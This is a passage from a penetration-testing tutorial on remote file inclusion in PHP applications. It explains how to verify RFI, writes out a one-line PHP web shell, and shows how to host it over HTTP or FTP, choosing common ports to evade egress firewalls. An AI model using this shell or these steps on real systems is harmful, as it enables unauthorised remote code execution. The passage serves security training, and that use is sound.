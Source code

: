 As we can see, almost any RFI vulnerability is also an LFI vulnerability, as any function that allows including remote URLs usually also allows including local ones. However, an LFI may not necessarily be an RFI. This is primarily because of three reasons:
1. The vulnerable function may not allow including remote URLs;
2. You may only control a portion of the filename and not the entire protocol wrapper (ex: http://, ftp://, https://);
3. The configuration may prevent RFI altogether, as most modern web servers disable including remote files by default.


Furthermore, as we may note in the above table, **some functions do allow including remote URLs but do not allow code execution. In this case, we would still be able to exploit the vulnerability to enumerate local ports and web applications through SSRF**.

### Verify RFI

In most languages, including remote URLs is considered as a dangerous practice as it may allow for such vulnerabilities. This is why remote URL inclusion is usually disabled by default. For example, **any remote URL inclusion in PHP would require the allow_url_include setting to be enabled**. We can check whether this setting is enabled through LFI, as we did in the previous section.

However, this may not always be reliable, as even if this setting is enabled, the vulnerable function may not allow remote URL inclusion to begin with. So, a more reliable way to determine whether an LFI vulnerability is also vulnerable to RFI **is to try and include a URL, and see if we can get its content**. At first, we should always start by trying to include a local URL to ensure our attempt does not get blocked by a firewall or other security measures. So, let's use (**http://127.0.0.1:80/index.php**) as our input string and see if it gets included:
```url
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```

### Remote code execution with RFI

The first step in gaining remote code execution is creating a malicious script in the language of the web application, PHP in this case. We can use a custom web shell we download from the internet, use a reverse shell script, or write our own basic web shell as we did in the previous section, which is what we will do in this case:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Now, all we need to do is host this script and include it through the RFI vulnerability. **It is a good idea to listen on a common HTTP port like 80 or 443, as these ports may be whitelisted in case the vulnerable web application has a firewall preventing outgoing connections**.

### FTP

We may also host our script through the FTP protocol. We can start a basic FTP server with Python's pyftpdlib, as follows:

```bash
sudo python -m pyftpdlib -p 21
```

This may also be useful in case http ports are blocked by a firewall or the http:// string gets blocked by a WAF. To include our script, we can repeat what we did earlier, but use the ftp:// scheme in the URL, as follows:
